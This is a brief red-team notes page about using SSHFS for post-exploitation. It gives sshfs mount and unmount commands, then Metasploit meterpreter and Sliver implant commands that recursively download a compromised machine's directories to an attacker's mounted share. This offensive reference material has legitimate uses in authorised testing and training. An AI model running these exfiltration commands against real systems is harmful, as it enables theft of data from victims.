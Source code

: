 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

- Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

- To unmount the filesystem

`$ fusermount -u /mnt/ssh_filesystem/`

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

#### 2.1.2 - Sliver

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/General/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/General/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]